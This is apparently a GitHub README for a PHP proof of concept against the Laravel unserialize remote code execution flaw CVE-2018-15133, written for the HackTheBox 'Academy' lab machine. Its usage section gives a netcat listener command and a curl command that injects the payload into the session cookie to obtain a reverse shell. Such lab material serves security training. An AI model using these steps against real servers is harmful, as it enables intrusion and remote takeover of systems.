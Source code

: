 ## About:
* **Platform**&nbsp;&nbsp;&nbsp;: HackTheBox
* **Challenge**&nbsp;: Academy
* **Difficulty**&nbsp;&nbsp;: Easy
* **Link**&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;: [https://app.hackthebox.com/machines/Academy](https://app.hackthebox.com/machines/Academy)

## Description:
This is a PHP POC for [Laravel unsafe unserialization](https://www.programmersought.com/article/29875427507/) RCE vulnerability identified as [CVE-2018-15133](https://nvd.nist.gov/vuln/detail/CVE-2018-15133)

## Reference:
[+] [https://www.truesec.com/hub/blog/from-s3-bucket-to-laravel-unserialize-rce](https://www.truesec.com/hub/blog/from-s3-bucket-to-laravel-unserialize-rce)

## Usage:
1. Start a netcat listener on a port number of your choice (e.g.; `9999`) 
```bash
$ nc -nlvp 9999
```
2. Run the following curl command:
```bash
curl -H "Cookie: laravel_session= $(php poc.php);" -v http://dev-staging-01.academy.htb
```
![2023-07-26 18_19_56-ParrotOS-HTB - VMware Workstation 17 Player (Non-commercial use only)](https://github.com/YounesTasra-R4z3rSw0rd/CTF-Scripts/assets/101610095/046a4e37-a707-419a-9e62-a98fb9aa15be)
